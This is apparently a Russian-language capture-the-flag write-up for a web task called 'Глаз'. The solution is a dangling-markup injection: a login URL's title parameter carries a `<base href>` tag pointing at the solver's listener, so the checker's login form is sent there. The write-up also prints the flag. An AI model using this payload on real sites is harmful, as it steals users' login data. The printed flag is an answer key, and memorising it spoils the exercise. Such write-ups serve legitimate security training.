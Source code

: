 # Глаз
## Сложность
Medium

## Описание
В расследовании недавнего преступления мы опробовали нашу новейшую автоматизированную информационную систему розыска преступников "Глаз". Работает как часы, но вот название так себе, правда? Там сейчас как принимают предложения о новом названии, может поучаствуешь?

## Решение:
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#stealing-forms  
Скормить черкеру ссылку такого вида:  
`http://taskurl:8081/login?title=<base href="your_listener_url">`

## Флаг
CTF{D4ngl1ng_M4rkup_Inj3ct10n}

